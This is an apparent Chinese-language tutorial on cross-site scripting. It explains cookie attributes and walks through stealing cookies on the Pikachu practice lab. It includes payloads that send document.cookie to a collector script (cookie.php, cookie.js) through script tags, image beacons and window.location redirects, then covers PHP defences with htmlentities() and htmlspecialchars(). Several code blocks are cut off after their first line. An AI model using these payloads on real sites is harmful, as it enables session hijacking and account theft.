



xss Cookie获取
先来了解一下cookie属性：name、value、expires、domain、path、secure、max-age、HttpOnly。
name name
属性是必需的，它是一个键值对，用于指定Cookie的键。
value value
属性是必需的，它是一个键值对，用于指定Cookie的值。expires
expires
属性用于指定Cookie过期时间。它采用UTC或GMT格式，比如通过new
date().toUTCString()或new Date().toGMTString()获取到的Thu, 09 Aug 2018 03:17:40 GMT。 如果不设置该属性，或者设为null，Cookie只在当前会话（session）有效，浏览器窗口一旦关闭，当前Session结束，该Cookie就会被删除。 浏览器根据本地时间，决定Cookie是否过期，由于本地时间是不精确的，所以没有办法保证Cookie一定会在服务器指定的时间过期
domain
domain属性指定Cookie所在的域名，比如example.com或subdomain.example.com。 如果未指定，默认为设定该Cookie的域名。所指定的域名必须是当前发送Cookie的域名的一部分，比如当前访问的域名是example.com，就不能将其设为google.com。只有访问的域名匹配domain属性，Cookie才会发送到服务器。path
path属性用来指定路径，必须是绝对路径（比如/、/mydir），如果未指定，默认为请求该Cookie的网页路径。 只有path属性匹配向服务器发送的路径，Cookie才会发送。这里的匹配不是绝对匹配，而是从根路径开始，只要path属性匹配发送路径的一部分，就可以发送。比如，path属性等于/blog，则发送路径是/blog或者/blogroll，Cookie都会发送。path属性生效的前提是domain属性匹配。secure
secure属性用来指定Cookie只能在加密协议HTTPS下发送到服务器。 该属性只是一个开关，不需要指定值。如果通信是HTTPS协议，该开关自动打开。max-age
max-age属性用来指定Cookie有效期，比如60 60 24 * 365 （即一年31536000秒） 正常情况下，max-age的优先级高于expires，但是二者有一些细微差别。
HttpOnly
HttpOnly属性用于设置该Cookie不能被JavaScript读取. （即document.cookie不会返回这个Cookie的值），只用于向服务器发送。Set-Cookie: key=value; HttpOnly
首先我们需要一段php 代码来获取cookie以及ip并且生成一个cookie.txt文件
cookie.php
1 | <?php |
在存在XSS的地方 这样书 这样书写 (加入getcookie.php在你的根目录)
1 | <script src="http://127.0.0.1/cookie.php?cookie='+document.cookie+'" width=0 height=0</script>; |
当加号被过滤时
cookie.js
1 | var img = document.createElement('img'); |
getcookie.php
1 | <?php |
构造：
1 | <script src="http://127.0.0.1/cookie.js"></script> |
pikachu xss 之js输出
先试一下
果然没有输出，查看元素也没有，然后正常输如看下 输入<1213456>

考虑闭合语句
1 | ';alert(document.cookie)// 可以弹出 |
获取cookie
1 | ';window.location.href='http://127.0.0.1/cookie.php?cookie='+document.cookie// |
这些只能在本地获取，不能获公网的，如果你有没有vps可以考虑在线xss平台
网上很多，百度就行，使用方法看看也就能懂
四、XSS漏洞防范
4.1 反射型xss漏洞防范
php中xss的漏洞防范方法总结：<参考自Segmentfault>
1 | A.PHP直接输出html的，可以采用以下的方法进行过滤： |
这里我们选用htmlentities()函数进行测试：
htmlentities() 函数把字符转换为 HTML 实体。
新建Xss_htmlentities.php， 代码如下：
1 | <html> |
在Firefox输入url：localhost/codoaudit/xss/Xsshtmlentities.php :

当我们输入<script>alert('xss')</script> ：

可以看到页面并没有弹窗。
我们再查看网页html代码：

可以看到htmlentities()函数对用户输入的<>做了转义处理,恶意代码当然也就没法执行了。
还有其他过滤函数，纸上学来终觉浅，有兴趣的同学可以自己去尝试一番
4.2 存储型xss漏洞防范
存储型XSS对用户的输入进行过滤的方式和反射型XSS相同，这里我们使用htmlspecialchars()函数进行演示：
htmlentities() :把预定义的字符 “<” （小于）和 “>” （大于）转换为 HTML 实体
htmlspecialchars和htmlentities的区别：
htmlspecialchars 只转义 & 、" 、' 、< 、> 这几个html代码，而 htmlentities 却会转化所有的html代码，连同里面的它无法识别的中文字符也会转化。
新建Xss_htmlspecialchars_Storage.php ，代码如下:
1 | <span style="font-size:18px;"><meta http-equiv="Content-Type" content="text/html;charset=utf-8"/> |
在Firefox输入url：localhost/codoaudit/xss/Xss_htmlspecialchars_Storage.php :

当我们在Message中输入<script>alert('xss')</script> ：

可以看到页面并没有弹窗。
我们再查看网页html代码：